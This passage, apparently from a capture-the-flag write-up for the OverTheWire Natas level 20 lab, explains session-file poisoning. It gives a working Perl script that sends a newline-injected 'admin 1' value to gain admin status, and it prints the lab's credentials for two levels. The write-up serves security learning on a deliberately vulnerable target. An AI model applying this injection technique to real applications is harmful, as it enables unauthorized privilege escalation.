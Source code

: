 The parsing itself is simple: one key val per line, so

```
key1 val1
key2 val2
...
```

Such that if we get to poison this text file with our `admin` key and `1` value we hit jackpot.

This attack consisted in three consecutive requests:

1. Creates a session for us (and that is why this time we use a Cookie jar on LWP::UserAgent->new, such that the following requests send session data along)
1. Send a malicious request that will poison the session persistence
1. Send any request that will read the poisoned session data and show us the admin creds.

```perl
#!/usr/bin/perl
use strict;
use warnings;
use v5.10;
use LWP::UserAgent;
use HTTP::Request::Common;
use HTTP::Cookies;
use Try::Tiny;

my $url = 'http://natas20.natas.labs.overthewire.org/index.php?debug=1';
my $ua = LWP::UserAgent->new(
  cookie_jar => HTTP::Cookies->new()
);

sub make_request_with {
  my $request = POST $url, Content => [ name => shift ];
  $request->authorization_basic('natas20', 'eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF');
  my $response = $ua->request($request);
  print $response->content;
}

# make first request to create session
make_request_with("foobar");

# make second request with malicious payload so poison session
make_request_with("foobar\nadmin 1");

# make third request to load poisoned session
make_request_with("foobar\nadmin 1");
```

Et voila:

```html
<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ</pre>
```